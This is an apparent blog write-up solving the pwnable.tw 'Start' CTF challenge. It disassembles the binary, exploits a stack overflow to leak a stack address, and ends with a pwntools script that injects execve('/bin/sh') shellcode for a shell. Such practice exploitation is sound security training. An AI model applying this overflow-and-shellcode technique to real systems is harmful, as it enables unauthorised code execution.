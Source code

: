 ```yaml
---
title: pwnable.tw Start
date: 2025-2-21
categories: [pwnableTW, writeup]
---
```


# Problem

> Just a start.<br>
<br>
Don't know how to start?<br>
Check [GEF 101 - Solving pwnable.tw/start](https://www.youtube.com/watch?v=KWG7prhH-ks) by [@\_hugsy](https://twitter.com/_hugsy_)

- `start`: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped

# Recon

Open the binary in binary ninja, the `_start()` function is simple, only contains 22 instructions.

```
08048060    int32_t _start()
--------------------------------------------------------------------
08048060  54                 push    esp {__return_addr} {var_4}
08048061  689d800408         push    _exit {var_8}
08048066  31c0               xor     eax, eax  {0x0}
08048068  31db               xor     ebx, ebx  {0x0}
0804806a  31c9               xor     ecx, ecx  {0x0}
0804806c  31d2               xor     edx, edx  {0x0}
0804806e  684354463a         push    0x3a465443 {var_c}
08048073  6874686520         push    0x20656874 {var_10}
08048078  6861727420         push    0x20747261 {var_14}
0804807d  6873207374         push    0x74732073 {var_18}
08048082  684c657427         push    0x2774654c {var_1c}
08048087  89e1               mov     ecx, esp {var_1c}
08048089  b214               mov     dl, 0x14
0804808b  b301               mov     bl, 0x1
0804808d  b004               mov     al, 0x4
0804808f  cd80               int     0x80
08048091  31db               xor     ebx, ebx  {0x0}
08048093  b23c               mov     dl, 0x3c
08048095  b003               mov     al, 0x3
08048097  cd80               int     0x80
08048099  83c414             add     esp, 0x14
0804809c  c3                 retn    
```

Which in pseudo C is:

```c
int _start() {
    char buf[0x14] = "Let\'s start the CTF:";
    write(1, buf, 0x14);
    read(0, buf, 0x3c);
}
```

# Exploit

## Buffer Overflow

The `read` function can results in stack buffer overflow to override `$ebp`, after sending pattern using pwntools, the program receive `SIGSEGV` at `0x66666666`, which is `ffff`, hence the padding is 20 and we have a arbitrary jump.

```python
# template with $ pwn template --host chall.pwnable.tw --port 10000 start

io.sendafter(b"Let's start the CTF:", b"aaaabbbbccccddddeeeeffffgggghhhh")
```

![alt text]({{site.baseurl}}/assets/images/pwnable-tw-Start/ebp-padding.png)

## Where to Jump

Since NX is disabled, we can write shellcode to stack and then jump to stack to get shell.

![alt text]({{site.baseurl}}/assets/images/pwnable-tw-Start/checksec.png)

## Leak stack Address

However the stack address is randomized every time, to leak the stack address we need some lind of print function, fortunately the gadget at `0x08048087` is `write(1, $esp, 0x14); read(0, $esp, 0x3c);`{:.c}, it will print out the value at `$esp` and get another chance to overflow $ebp. Using the following script and setting breakpoint at `0x804808f` (`write()`), we can find that `buf`, refer as `buf1`, is at `leak - 0x1c` and the fake buffer of the second `write()`, refer as `buf2`, is at `leak - 0x4`

```python
io.sendafter(b"Let's start the CTF:", b"a" * 20 + p32(0x8048087))
leak = u32(io.recv(4))
log.info(f"{leak = :#0x}")
```

![alt text]({{site.baseurl}}/assets/images/pwnable-tw-Start/buf1_address.png)
![alt text]({{site.baseurl}}/assets/images/pwnable-tw-Start/buf2_address.png) <br>
![alt text]({{site.baseurl}}/assets/images/pwnable-tw-Start/leak_stack.png)

## Get Shell

The program flow we want to achieve is:
1. jump back the `write()`: first buffer overflow
2. leak stack address: write gadget
3. put shellcode on stack: second `read()`
4. jump to shellcode: second buffer overflow
5. get shell, PWN!!!

However, for step 3 the shortest shell code for `execve("/bin/sh")` is 23 bytes, which is longer than the 20 bytes buffer, notice that the first `read()` isn't used and we also know the address of `buf1`, therefore it is a good place to put `"/bin/sh"`. The final exploit is as follow:

```python
io = start()

io.sendafter(b"Let's start the CTF:", b"/bin/sh\x00" + b"a" * 12 + p32(0x8048087))
leak = u32(io.recv(4))
log.info(f"{leak = :#0x}")
buf1 = leak - 0x1c
log.info(f"{buf1 = :#0x}")
buf2 = leak - 0x4
log.info(f"{buf2 = :#0x}")

shellcode = asm(f"""
                mov eax, 0xb
                mov ebx, {hex(buf1)}
                xor ecx, ecx
                xor edx, edx
                int 0x80
                """)
log.info(f"shellcode lenght: {len(shellcode)}")
io.send(shellcode + b"\x90" * (20 - len(shellcode)) + p32(buf2))

io.interactive()
```
